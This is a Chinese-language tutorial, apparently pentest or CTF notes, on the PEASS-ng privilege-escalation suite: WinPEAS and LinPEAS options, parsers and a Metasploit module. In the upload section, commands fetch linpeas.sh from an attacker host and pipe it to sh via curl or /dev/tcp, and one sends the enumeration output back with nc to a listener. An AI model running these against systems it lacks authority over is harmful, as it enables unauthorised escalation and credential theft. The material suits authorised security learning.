

<center>Peass-ng提权</center>


[toc]


## Peass-ng提权

> PEASS - 权限提升超棒脚本套件 (带颜色)
>
> 在这里您可以找到**适用于 Windows、Linux/Unix\* 和 MacOS 的权限提升工具**。[github](https://github.com/peass-ng/PEASS-ng)


### 1. 下载

> [release](https://github.com/peass-ng/PEASS-ng/releases)
>
> [ddosi](https://www.ddosi.org/peass-ng/)

```shell
# 源码
git clone https://github.com/peass-ng/PEASS-ng.git
```


### 1. WinPEAS

> **Win**dows **P**rivilege **E**scalation **A**wesome **S**cript 。
>
> 查看windows很多很多信息。

```shell
winPEASx64.exe

winPEASx64.exe -h

  [*] WinPEAS是一个二进制文件，它列举了本地升级特权的可能路径
        quiet                不要打印横幅
        notcolor             不要使用ansi颜色(全白)
        domain               列举域信息
        systeminfo           搜索系统信息
        userinfo             搜索用户信息
        processinfo          搜索处理信息
        servicesinfo         搜索服务信息
        applicationsinfo     搜索已安装应用程序信息
        networkinfo          搜索网络信息
        windowscreds         搜索windows的凭证
        browserinfo          搜索浏览器信息
        filesinfo            搜索可以包含凭据的通用文件
        fileanalysis         搜索可能包含凭据的特定文件
        eventsinfo           显示感兴趣的事件信息
        wait                 在两次检查之间等待用户输入
        debug                显示调试信息-内存使用，方法执行时间
        log[=logfile]        将所有输出记录到定义为logfile的文件中，如果没有指定，则记录到"out.txt"

        额外的检查(慢):
        -lolbas              运行额外的LOLBAS检查
        -linpeas=[url]       运行额外的linpeasen.sh检查默认的WSL分发，可选地提供自定义linpeasen.sh URL(默认: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
```

```shell
winPEASx64.exe log=ddosi.txt
```


### 2. LinPEAS

> **LinPEAS 是一个脚本，用于搜索在 Linux/Unix\*/MacOS 主机上提升权限的可能路径。**
>
> 此脚本的目标是搜索可能的**权限提升路径**（在 Debian、CentOS、FreeBSD、OpenBSD 和 MacOS 中测试）。
>
> [github](https://github.com/peass-ng/PEASS-ng/releases/download/20241201-e3889b61/linpeas.sh)
>
> **这个脚本没有任何依赖。**
>
> mac: [releases](https://github.com/peass-ng/PEASS-ng/releases/tag/20241201-e3889b61)

```shell
./linpeas.sh -h

枚举和搜索特权升级向量。
该工具将枚举并搜索主机内部可能的错误配置(已知的vulns、用户、进程和文件权限、特殊文件权限、可读/可写文件、暴力破解其他用户(top1000pwds)、密码……)，并用颜色突出显示可能的错误配置。
      -h 显示此帮助消息
      -q 不显示横幅
      -e 执行额外的枚举
      -s 超快(不检查一些耗时的检查)-潜行模式
      -a 所有检查(1分钟的进程和su)——噪声模式，主要用于CTFs
      -w 在大块检查之间等待执行
      -N 不要使用颜色
      -D 调试模式
      -P 指定用于运行'sudo -l'和通过'su'强制其他用户帐户的密码
      -o 只执行选定的检查(system_information、container、procs_crons_timers_srvcs_sockets、network_information、users_information、software_information、interesting_files)。选择逗号分隔的列表。
      -L 强制linpeas执行。
      -M 强制macpeas执行。
      -d <ip netmask="">使用fping或ping发现主机。</ip>例: -d 192.168.0.1/24
      -p <PORT(s)> -d <IP/NETMASK> 发现寻找TCP开放端口的主机(通过nc)。默认端口22、80,443,445、3389和您指定的另一个端口将被扫描(如果您不想添加更多端口，请选择22)。您也可以添加端口列表。例如:-d 192.168.0.1/24 -p 53,139
      -i <IP> [-p <PORT(s)>] 使用nc扫描IP。默认情况下(没有-p)，将扫描nmap的top1000，但您也可以选择一个端口列表。例如:-i 127.0.0.1 -p 53,80,443,8000,8080
      -t 自动网络扫描(主机发现和端口扫描)-此选项写入文件
         注意，如果指定一些网络扫描(options -d/-p/-i，但NOT -t)，将不会执行PE检查

```

```shell
# 上传到靶机

# python3 
python3 -m http.server 8000
# python2
sudo python -m SimpleHTTPServer 8000

curl IP/linpeas.sh | sh # 靶机

# 没有curl
sudo nc -q 5 -lvnp 8000 < linpeas.sh
cat < /dev/tcp/IP/8000 | sh # 靶机

# 从内存中执行并输出发送回主机
nc -lvnp 9002 | tee linpeas.out #主机
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #受害者
```

> 输出到文件

```shell
./linpeas.sh > a.txt
```


### 3. parsePEASS

> parsePEASS是PEASS-ng 的解析器和转换器,使用 PEASS_ng 内置解析器解析原始 linpeas\winpeas 输出文件并将其转换为可读 HTML 或 PDF 格式的 Bash 脚本。
>
> [github](https://github.com/peass-ng/PEASS-ng/tree/master/parsers)
>
> 先转json再转pdf和html

```shell
python3 peas2json.py </path/to/executed_peass.out> </path/to/peass.json>
python3 json2pdf.py </path/to/peass.json> </path/to/peass.pdf>
python3 json2html.py </path/to/peass.json> </path/to/peass.html>
```


### 4. PEASS metasploit模块

> 您可以使用此模块**从 metasploit 中获得的 Meterpreter 或 shell 会话自动执行 PEASS 脚本**。
>
> [github](https://github.com/peass-ng/PEASS-ng/tree/master/metasploit)

```shell
sudo wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb
```

> 使用

```shell
use post/multi/gather/peass
```



